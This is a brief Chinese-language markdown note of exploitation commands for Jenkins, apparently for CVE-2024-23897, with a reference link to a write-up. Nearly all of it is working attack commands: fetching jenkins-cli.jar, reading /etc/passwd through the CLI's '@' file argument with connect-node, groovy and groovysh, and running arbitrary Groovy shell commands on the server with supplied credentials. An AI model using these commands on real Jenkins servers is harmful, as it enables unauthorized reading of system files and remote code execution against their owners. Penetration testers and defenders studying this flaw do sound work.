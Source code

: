 ## 一些利用命令
- 如何获得jenkins-cli.jar？ 
`从Jenkins的系统中去下载，http://127.0.0.1:8080/jnlpJars/jenkins-cli.jar`
- 如何获取全部文件内容？
`java -jar jenkins-cli.jar -s http://127.0.0.1:8080/ -auth test_2024:test_2024 -webSocket connect-node @/etc/passwd`
- 查看版本：
`java -jar jenkins-cli.jar -s http://192.168.2.110:8090 version`
- 如何通过Jenkins Cli去执行groovy代码

```
java -jar jenkins-cli.jar -s http://192.168.2.110:8090 groovy @/etc/passwd
java -jar jenkins-cli.jar -s http://192.168.2.110:8090 groovysh @/etc/passwd

挂个代理观察
java -Dhttp.proxyHost=127.0.0.1 -Dhttp.proxyPort=9999 -jar jenkins-cli.jar -s http://172.16.11.1:8081/ -webSocket -auth user:bitnami groovy = < 1.txt

1.txt中放groovy代码如下：

def command = "ls -l"
def process = command.execute()
process.waitFor()
def output = process.text
def exitCode = process.exitValue()
println "Command Output:$output"
println "Exit Code: $exitCode"
 
来自：https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw 
```

### 参考

https://www.leavesongs.com/PENETRATION/jenkins-cve-2024-23897.html
